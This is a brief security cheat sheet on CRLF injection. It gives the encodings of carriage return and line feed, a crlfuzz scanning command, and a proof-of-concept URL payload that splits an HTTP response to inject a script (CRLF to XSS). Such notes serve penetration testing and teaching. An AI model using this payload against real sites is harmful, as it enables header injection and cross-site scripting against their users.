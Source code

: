 # CRLF

Carriage Return Line Feed

```
Carriage Return = ASCII 13, \r, %0D
Line Feed = ASCII 10, \n, %0A
```

## Tools

```
# https://github.com/dwisiswant0/crlfuzz
crlfuzz -u "http://example.com"
```

## POC

CRLF to XSS

```
http://www.example.com/somepage.php?page=%0d%0aContent-Length:%200%0d%0a%0d%0aHTTP/1.1%20200%20OK%0d%0aContent-Type:%20text/html%0d%0aContent-Length:%2025%0d%0a%0d%0a%3Cscript%3Ealert(1)%3C/script%3E
```
